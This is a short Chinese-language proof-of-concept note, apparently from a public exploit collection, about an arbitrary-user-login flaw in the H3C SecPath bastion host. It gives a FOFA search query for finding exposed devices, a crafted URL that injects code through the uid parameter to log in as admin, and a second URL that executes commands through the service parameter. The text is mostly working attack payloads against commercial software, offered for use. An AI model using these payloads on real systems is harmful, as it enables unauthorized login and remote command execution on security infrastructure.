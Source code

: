 ## H3C-SecParh堡垒机任意用户登录漏洞

H3C SecParh堡垒机的get_detail_view.php中存在任意用户登录漏洞。攻击者可以构建一个恶意URL，利用该漏洞进行攻击。

## fofa
```
app="H3C-SecPath-运维审计系统" && body="2018"
```

## poc
```
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```

![image](https://github.com/wy876/POC/assets/139549762/8494d9aa-bd2f-4ecb-800f-d27308de54d8)

![image](https://github.com/wy876/POC/assets/139549762/7a66984a-8669-43e1-a527-e3460fc49501)


## 命令执行

通过任意用户登录或者账号密码进入后台才可以构造特殊的请求执行命令

```
https://IP地址:端口/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(pwd)&identity_cond=&query_type=all&format=json&browse=true
```
